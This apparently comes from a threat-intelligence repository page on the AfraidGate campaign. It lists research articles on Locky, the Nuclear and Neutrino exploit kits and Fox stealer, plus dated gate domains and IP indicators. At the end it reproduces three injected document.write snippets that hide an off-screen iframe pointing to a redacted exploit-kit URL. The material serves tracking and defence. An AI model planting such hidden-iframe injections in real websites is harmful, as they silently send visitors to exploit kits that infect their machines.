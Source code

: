 #ScriptJS/AfraidGate

## __Publications:__
| Title |  Date Here | Source |Comment|
|---|---|---|---|
|[Dridex Actors Get In the Ransomware Game With "Locky"](https://www.proofpoint.com/us/threat-insight/post/Dridex-Actors-Get-In-the-Ransomware-Game-With-Locky)| 2016-02-16 |Proofpoint||
|[Locky Ransomware Installed Through Nuclear EK](http://researchcenter.paloaltonetworks.com/2016/03/locky-ransomware-installed-through-nuclear-ek/)| 2016-03-21 |PaloAlto||
|[Threat Spotlight: Exploit Kit Goes International Hits 150+ Countries](http://blog.talosintel.com/2016/04/nuclear-exposed.html)| 2016-04-20 |Talos||
|[Highly Popular Anime Site Jkanime Compromised](https://blogs.forcepoint.com/security-labs/highly-popular-anime-site-jkanime-compromised-redirecting-users-neutrino-ek)| 2016-06-21 |Forcepoint||
|[Neutrino EK’s Afraidgate pushed in malvertising attack](https://blog.malwarebytes.com/cybercrime/exploits/2016/09/neutrino-eks-afraidgate-pushed-in-malvertising-attack/)| 2016-09-13 |Malwarebytes|*Payload is Godzilla here. Locky is in fact a 2ndStage*|
|[Fox stealer: another Pony Fork](http://malware.dontneedcoffee.com/2016/09/fox-stealer-another-pony-fork.html)| 2016-09-26 |MalwareDontNeedCoffee||
----

| Date |Domain| IP |
| :------- | :---- | :---|
|170201|kithole.seanconnor.com|159.203.30.60|
|170122|cuprum.poemar.es|146.185.151.179|
|170122|bombarda.mkoussa.com|146.185.151.179|
|170121|pistole.1stclassmunitions.com|146.185.151.179|
|170118|team.motivaplan.com.br|45.55.10.142|
|170110|malina.cfdiweb.mx|178.62.242.179|
|161214|alfio.brasilperfectcity.com|188.166.17.115|
|161209|stylesheet.bittitle.com|138.68.144.43|
|161203|aquarius.away.es|138.68.144.43|
|161127|mikkie.thejwfnet.co.uk|188.166.4.51|
|161124|max.nasasi.com.ar|159.203.18.229|
|161120|parameter.miafp.cl|159.203.18.229|
|161023|club.panduan-ngeblog.com|138.68.135.94|
|161015|round.luc-hariman.com|159.203.2.200|
|161015|alexa.lorea.io|159.203.2.200|
|161011|monte.aguero.com.au|82.196.10.194|
|161003|sp.gridjunky.com|95.85.46.182|
|160930|spower.gogohen.com|95.85.46.182|
|160928|aug.nightrelay.co.za|139.59.171.176|
|160927|monro.nillaraujo.com|139.59.171.176|
|160926|lesley.portcoquitlamweather.ca|188.166.66.191|
|160923|mouse.redvos.com|188.166.66.191|
|160922|rouse.haslhome.com|46.101.93.53|
|160920|test.linonsa.com|146.185.158.150|
|160919|van.readytogo.club|178.62.23.109|
|160918|van.readytogo.club|178.62.23.109|
|160918|knight.manex.us|178.62.23.109|
|160915|vk.manex.us|178.62.23.109|
|160908|note.followthebrowns.com|159.203.3.186|
|160906|ono.bienestando.cl|159.203.3.186|
|160901|murphy.tahubaxoku.com|146.185.172.147|
|160828|ops.latokaski.fi|138.68.18.73|
|160828|nonna.culturizartechillan.cl|138.68.18.73|
|160818|font.enriquemonsalve.cl|178.62.77.103|
|160814|way.minadepreco.com.br|188.166.54.203|
|160814|make.kankerblogger.com|188.166.54.203|
|160811|global.platinoviajes.com.ve|188.166.54.203|
|160801|one.hiiragihoo.com|139.59.160.138|
|160730|temp.blog-sandltnst.co|139.59.160.138|
|160726|leon.stmaryschooldmt.com|46.101.26.161|
|160722|long.revistashine.com.ar|46.101.26.161|
|160713|stown.katieprallphotography.com|188.166.38.125|
|160629|dance.jmestudiocontable.com.ar|139.59.191.79|
|160626|onno.motorgear.com.au|188.166.38.125|
|160626|dron.transportemorelli.com.ar|146.185.173.25|

----
Script example :

```javascript
document.write('<div class="" style="position:absolute; width:399px; height:400px; left:15px; top:-740px;">  <a> </a><div> <a class="menu_link_new"></a> strong<iframe src="[EK HERE]" width=255 height=261 ></ifram'+ 'e><a></a></div><a class=""></a></div>');
```
```javascript
document.write('<div style="position:absolute; width:365px; height:400px; left:10px; top:-475px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=271 height=278 ></ifram'+'e><a class=""></a></div> </div>');
```
```javascript
document.write('<div style="position:absolute; width:355px; height:363px; left:10px; top:-954px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=285 height=290 ></ifram'+'e><a class=""></a></div> </div>');
```

